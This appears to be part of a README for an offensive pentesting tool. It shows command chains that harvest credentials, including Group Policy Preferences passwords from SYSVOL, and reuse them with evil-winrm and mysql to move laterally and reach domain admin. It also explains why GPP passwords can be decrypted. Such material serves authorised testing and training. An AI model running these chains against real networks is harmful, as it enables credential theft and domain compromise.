 
## 🎯 Integration with Other Tools

### Chain 1: Credentials → Database Access
```bash
# 1. Find credentials
./credseek.py iplist.txt

# 2. Test on databases
../dbseek/dbseek.py iplist.txt -t

# 3. Use extracted DB credentials manually
mysql -h 192.168.1.100 -u root -p extracted_password
```

### Chain 2: Credentials → WinRM Access
```bash
# 1. Extract credentials
./credseek.py iplist.txt -u user -p pass -d CORP

# 2. Test on WinRM
../winrmseek/winrmseek.py iplist.txt -t -u extracted_user -p extracted_pass

# 3. Connect via evil-winrm
evil-winrm -i 192.168.1.100 -u extracted_user -p extracted_pass
```

### Chain 3: GPP → Domain Admin
```bash
# 1. Extract GPP passwords (often domain admin!)
./credseek.py --gpp dclist.txt -u lowpriv -p pass123 -d CORP

# 2. Check if GPP account is admin
../ldapseek/ldapseek.py dclist.txt -u gpp_user -p gpp_pass

# 3. If admin, compromise domain
evil-winrm -i dc01 -u gpp_admin -p gpp_pass
```

---

## 🔐 Group Policy Preferences (GPP) Passwords

### What are GPP Passwords?
Group Policy Preferences allow administrators to set local admin passwords, mapped drives, and scheduled tasks via Group Policy. These passwords are stored **encrypted** in SYSVOL, but Microsoft published the **decryption key** (AES-256), making them trivial to decrypt.

### Why This Matters
- **SYSVOL is readable by all domain users**
- **Passwords are often for local admin accounts**
- **Same password may be reused across many systems**
- **Can lead to complete domain compromise**
